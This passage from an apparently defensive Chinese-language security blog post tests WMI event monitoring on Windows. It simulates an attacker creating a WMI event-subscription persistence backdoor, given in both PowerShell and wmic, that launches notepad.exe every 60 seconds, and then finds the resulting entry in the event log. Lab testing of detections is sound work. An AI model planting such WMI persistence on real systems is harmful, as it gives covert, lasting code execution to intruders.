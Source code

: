 **测试系统：**

Windows 8.1 x86

Powershell v3.0

**1、**运行脚本开启监控

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/3gstudent.github.io/master/_posts/2016-8-26//2-1.png)




**2、**模拟攻击者新建一个定时启动后门

powershell代码如下：

```
$filterName = 'BotFilter82'
$consumerName = 'BotConsumer23'
$exePath = 'C:\Windows\System32\notepad.exe'
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exePath}
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}
```

wmic在cmd下直接实现的代码如下：

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```

**注：**

代码具体含义在《WMI Attacks》、《WMI Backdoor》、《WMI Defense》、《Study Notes of WMI Persistence using wmic.exe》作过具体介绍，此处略

**3、**查看系统日志

控制面板-系统和安全-查看事件日志-事件查看器（本地）-Windows日志-应用程序

找到事件ID为8的事件，查看详细信息，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/3gstudent.github.io/master/_posts/2016-8-26/2-2.png)


记录了如下信息：
